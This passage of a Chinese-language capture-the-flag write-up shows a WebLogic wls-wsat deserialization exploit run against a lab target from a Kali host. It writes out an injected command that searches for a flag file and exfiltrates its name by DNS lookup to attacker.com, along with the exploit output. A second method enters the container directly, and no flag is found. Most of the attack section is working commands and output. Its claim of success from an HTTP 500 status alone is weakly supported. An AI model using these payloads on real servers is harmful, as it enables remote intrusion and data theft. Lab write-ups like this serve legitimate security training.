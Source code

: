 **方法三：使用DNS外带数据**

```bash
# 将flag内容通过DNS查询外带
python3 manual_exploit.py http://10.37.133.3:7001 "flag=\$(find / -name '*flag*' 2>/dev/null | head -1); nslookup \$flag.attacker.com"
```

**执行结果**:

```bash
┌──(kali㉿kali-attacker)-[~/ctf-games/fofapro/vulfocus]
└─$ python3 manual_exploit.py http://10.37.133.3:7001 "flag=\$(find / -name '*flag*' 2>/dev/null | head -1); nslookup \$flag.attacker.com"

[*] 攻击目标: http://10.37.133.3:7001/wls-wsat/CoordinatorPortType
[*] 执行命令: flag=$(find / -name '*flag*' 2>/dev/null | head -1); nslookup $flag.attacker.com
[+] HTTP状态码: 500
[+] 响应长度: 5287 字节
[+] 可能攻击成功 (HTTP 500通常表示反序列化触发)
```

**✅ 方法三成功确认**:

- DNS外带命令成功执行（HTTP 500状态码）
- 虽然无法直接看到DNS查询结果，但命令已被WebLogic服务器处理

**方法四：直接进入容器查看**

由于我们已经确认RCE成功，可以直接进入WebLogic容器查看：

```bash
# 进入WebLogic容器
docker exec -it 1d6a9c490b23 /bin/bash

# 在容器内搜索flag
find / -name '*flag*' 2>/dev/null
cat /tmp/flag* 2>/dev/null
```

**✅ 方法四执行结果**:

```bash
┌──(kali㉿kali-attacker)-[~/ctf-games/fofapro/vulfocus]
└─$ docker exec -it 1d6a9c490b23 /bin/bash

root@1d6a9c490b23:~/Oracle/Middleware# find / -name '*flag*' 2>/dev/null
/sys/devices/platform/serial8250/serial8250:0/serial8250:0.3/tty/ttyS3/flags
/sys/devices/platform/serial8250/serial8250:0/serial8250:0.1/tty/ttyS1/flags
/sys/devices/platform/serial8250/serial8250:0/serial8250:0.2/tty/ttyS2/flags
/sys/devices/platform/serial8250/serial8250:0/serial8250:0.0/tty/ttyS0/flags
/sys/devices/virtual/net/lo/flags
/sys/devices/virtual/net/eth0/flags
/sys/module/scsi_mod/parameters/default_dev_flags
/proc/sys/net/ipv4/fib_notify_on_flag_change
/proc/sys/net/ipv6/fib_notify_on_flag_change
/proc/kpageflags
/usr/lib/perl/5.18.2/bits/waitflags.ph

root@1d6a9c490b23:~/Oracle/Middleware# cat /tmp/flag* 2>/dev/null
root@1d6a9c490b23:~/Oracle/Middleware# 
```
